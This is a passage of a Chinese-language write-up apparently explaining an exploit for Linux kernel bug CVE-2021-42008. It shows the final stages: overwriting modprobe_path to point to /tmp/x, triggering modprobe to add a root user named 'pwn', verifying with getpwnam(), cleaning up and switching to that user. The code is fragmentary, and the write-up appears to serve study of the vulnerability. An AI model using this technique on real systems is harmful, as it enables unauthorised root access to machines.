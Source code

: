**篡改`modprobe_path`**：最后，打开每个页错误处理线程的栅栏：就会将 `modprobe_path`指向的字符串篡改为 `/tmp/x`。

```c
[...]
release_pfh = true;
[...]
```

![13](/images/posts/CVE-2021-42008/\13.png)

**提权**：最后阶段，触发执行 `/sbin/modprobe`（其实是 `/tmp/x`），并确认是否添加了新的root用户，调用[getpwnam()](https://linux.die.net/man/3/getpwnam)（获取对应用户名的passwd结构）来确认，若失败则重新运行exp。

```c
[...]

system("/tmp/asd 2>/dev/null"); // [1]

if (!getpwnam("pwn")) 			// [2]
{
    puts("[X] Exploit failed, try again...");
    goto end;
}

puts("[+] We are root!");
system("rm /tmp/asd && rm /tmp/x");
system("su pwn");

[...]
```
